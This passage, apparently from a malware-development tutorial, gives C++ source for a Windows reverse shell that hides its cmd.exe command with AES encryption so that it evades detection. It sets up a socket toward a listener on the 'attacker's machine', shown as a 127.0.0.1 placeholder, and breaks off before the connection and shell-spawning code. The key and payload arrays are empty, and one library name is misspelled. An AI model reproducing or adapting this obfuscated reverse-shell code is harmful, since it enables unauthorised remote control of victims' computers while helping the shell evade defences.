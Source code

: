 Update our simple reverse shell code:
```cpp
/*
shell-aes.cpp
author: @cocomelonc
windows reverse shell with AES encryption example
*/
#include <winsock2.h>
#include <stdio.h>
#include <iostream>
#include <wincrypt.h>
#pragma comment(lib, "w2_32")
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")

WSADATA wsaData;
SOCKET wSock;
struct sockaddr_in hax;
STARTUPINFO sui;
PROCESS_INFORMATION pi;

// encrypted command cmd.exe (with AES)
unsigned char myCmd[] = { };
unsigned int myCmdL = sizeof(myCmd);

// AES key
unsigned char mySecretKey[] = { };

// AES decrypt
int AESDecrypt(char * data, unsigned int data_len, char * key, size_t keylen) {
  HCRYPTPROV hProv;
  HCRYPTHASH hHash;
  HCRYPTKEY hKey;

  if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
    return -1;
  }
  if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
    return -1;
  }
  if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
    return -1;
  }
  if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
    return -1;
  }
  if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, data, &data_len)){
    return -1;
  }

  CryptReleaseContext(hProv, 0);
  CryptDestroyHash(hHash);
  CryptDestroyKey(hKey);

  return 0;
}

int main(int argc, char* argv[])
{
  // decrypt command
  AESDecrypt((char *) myCmd, myCmdL, mySecretKey, sizeof(mySecretKey));

  // listener ip, port on attacker's machine
  char *ip = "127.0.0.1";
```